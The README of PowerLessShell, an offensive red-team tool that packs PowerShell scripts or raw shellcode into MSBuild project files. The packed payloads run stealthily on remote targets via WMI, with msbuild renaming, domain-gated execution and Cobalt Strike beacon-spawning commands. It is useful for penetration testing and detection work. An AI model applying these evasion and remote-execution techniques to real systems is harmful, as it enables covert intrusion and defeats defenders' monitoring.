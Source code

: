 # PowerLessShell - run powershell without powershell

PowerLessShell rely on MSBuild.exe to remotely execute PowerShell scripts and commands without spawning powershell.exe. 
You can also execute raw shellcode using the same approach.

To add another layer of crap the payload will copy msbuild.exe to something random and build the payload using the randomly generated binary.

* You can provide -knownprocess switch to use known Windows process name instead of renaming MsBuild.exe to something random

# MSBuild conditions 

MSBuild support condition that can be used to avoid running code if the condition is not met.

```
<Target Name="x" Condition="'$(USERDOMAIN)'=='RingZer0'">
```

The malicious code will only be executed if the current user domain is "RingZer0"

Condition supports several other formats that can be used to create more conditional execution check.

```
<Target Name="x" Condition="'$(registry:HKEY_LOCAL_MACHINE\blah@blah)'>='0'">
```

Property Functions also expose interesting data.

```
https://docs.microsoft.com/en-us/visualstudio/msbuild/property-functions
```

# Usage

Raw shellcode
```
$ python PowerLessShell.py


PowerLessShell - Remain Stealth
         More PowerShell Less Powershell.exe - Mr.Un1k0d3r RingZer0 Team
            ___
        .-"; ! ;"-.
      .'!  : | :  !`.
     /\  ! : ! : !  /\
    /\ |  ! :|: !  | /\
   (  \ \ ; :!: ; / /  )
  ( `. \ | !:|:! | / .' )
  (`. \ \ \!:|:!/ / / .')
   \ `.`.\ |!|! |/,'.' /
    `._`.\\!!!// .'_.'
       `.`.\|//.'.'
        |`._`n'_.'|
        `----^----"


(Set payload type 'powershell, shellcode')>>> shellcode

(Path to the raw shellcode file)>>> shellcode.raw

(Path for the generated MsBuild out file)>>> payload.csproj

(Set USERDOMAIN condition (Default ''))>>> RingZer0

(Use known process name to perform MsBuild renaming (Default: False))>>>

[+] payload.csproj was generated.
[+] payload.csproj.bat was generated.
[+] Run the command inside of payload.csproj.cmd on the target system using WMI.
```

Powershell
```
$ python PowerLessShell.py


PowerLessShell - Remain Stealth
         More PowerShell Less Powershell.exe - Mr.Un1k0d3r RingZer0 Team
            ___
        .-"; ! ;"-.
      .'!  : | :  !`.
     /\  ! : ! : !  /\
    /\ |  ! :|: !  | /\
   (  \ \ ; :!: ; / /  )
  ( `. \ | !:|:! | / .' )
  (`. \ \ \!:|:!/ / / .')
   \ `.`.\ |!|! |/,'.' /
    `._`.\\!!!// .'_.'
       `.`.\|//.'.'
        |`._`n'_.'|
        `----^----"


(Set payload type 'powershell, shellcode')>>> powershell

(Path to the PowerShell script)>>> payload.ps1

(Path for the generated MsBuild out file)>>> payload.csproj

(Set USERDOMAIN condition (Default ''))>>>

(Use known process name to perform MsBuild renaming (Default: False))>>>

[+] payload.csproj was generated.
[+] payload.csproj.bat was generated.
[+] Run the command inside of payload.csproj.cmd on the target system using WMI.
```

Inline command
```
python PowerLessShell.py powershell.ps1 output (optional shellcode, -knownprocess)


PowerLessShell - Remain Stealth
         More PowerShell Less Powershell.exe - Mr.Un1k0d3r RingZer0 Team
            ___
        .-"; ! ;"-.
      .'!  : | :  !`.
     /\  ! : ! : !  /\
    /\ |  ! :|: !  | /\
   (  \ \ ; :!: ; / /  )
  ( `. \ | !:|:! | / .' )
  (`. \ \ \!:|:!/ / / .')
   \ `.`.\ |!|! |/,'.' /
    `._`.\\!!!// .'_.'
       `.`.\|//.'.'
        |`._`n'_.'|
        `----^----"




[+] output was generated.
[+] output.bat was generated.
[+] Run the command inside of output.cmd on the target system using WMI.
```

# Example

The following example is running the RC4 RAT https://github.com/Mr-Un1k0d3r/RC4-PowerShell-RAT without running a single instance of PowerShell

![PowerLessShell](https://ringzer0team.com/powershellless.png)

# Cobalt Strike Aggressor script (wmi_msbuild.cna) 
By Alyssa (ramen0x3f) and MrT-F
### Set Up
* Either copy PowerLessShell folder to [cobalts working dir]/PowerLessShell or make note of path
* If you didn't copy it to the Cobalt directory: edit the $pls_path variable in this file to point to PowerLessShell
* Load script into Cobalt Strike

### Usage
```
check_msbuild -target TARGET   		Verify .NET 4.0.30319 is installed (should see "Status OK")
	[-user user] [-pass pass]		Windows 7 has .NET 4.0.30319 after 3 reboots and 4 Windows update cycles

rename_msbuild -target TARGET 		Copy MSBuild.exe. 
	-msbuild newname 
 	[-path C:\new\path] 		Default - C:\Users\Public\
	[-user domain\username]		Specifying user/pass spawns cmd on remote host.
 	[-pass password]			

wmi_msbuild -target TARGET 		 	Spawn new beacon. 
         -listener LISTENER
	[-payload new_file]		 	Default - [a-zA-Z].tmp
	[-directory new_dir]			Default - C:\Users\Public\
	[-msbuild alt_msbuild_location] 	
	[-user USERNAME] [-pass PASSWORD]	
	[-manualdelete]				Switch doesn't auto delete payload.
```
### OpSec Notes
Spawns cmd.exe on the target system if
* ManualDelete switch is not set
* rename_msbuild is run with a username/password specified

# Credit
Mr.Un1k0d3r RingZer0 Team 2017

